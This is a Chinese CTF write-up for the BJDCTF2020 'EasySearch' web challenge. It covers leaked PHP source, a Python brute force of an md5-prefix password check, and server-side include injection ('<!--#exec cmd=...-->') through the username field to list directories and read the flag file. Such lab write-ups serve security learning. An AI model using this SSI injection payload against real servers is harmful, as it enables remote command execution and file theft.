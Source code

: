 # [BJDCTF2020]EasySearch
![](<./img/Pasted image 20221217203306.png>)

---
首页长这样

![](<./img/Pasted image 20221217203322.png>)

为什么两个框框的`placeholder`都是`username`啊喂==

猜密码没猜中，快进到下一步

---
使用`dirsearch`扫目录

![](<./img/Pasted image 20221217205515.png>)
```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```
这个`***`不会是手残把墨水滴💾上造成的吧QwQ

---
先绕过第一个`if`
```python
from hashlib import md5

i = 0
while True:
    if md5(str(i).encode('utf-8')).hexdigest()[:6] == '6d0bc1':
        print(i)
        break
    i = i + 1
```

> 2020666

---
接下来服务端在`public`目录下面写入了一个随机名字的`shtml`文件

`[!] Header error ...`暗示要去看响应头

![](<./img/Pasted image 20221217213950.png>)

![](<./img/Pasted image 20221217214621.png>)

---
然后是`shtml`的[新知识](https://zh.wikipedia.org/zh-cn/%E6%9C%8D%E5%8A%A1%E5%99%A8%E7%AB%AF%E5%86%85%E5%B5%8C)

总之就是可以利用这个
```
<!--#exec cmd="ls -l" -->
```
来执行命令

这里通过`username`注入
```shell
ls
```

![](<./img/Pasted image 20221217215146.png>)

```shell
ls ..
```

![](<./img/Pasted image 20221217215251.png>)

```shell
cat ../flag_990c66bf85a09c664f0b6741840499b2
```

![](<./img/Pasted image 20221217215409.png>)

#Web #PHP #HTTP #Header #RCE #SHTML #HTML #目录扫描 #md5 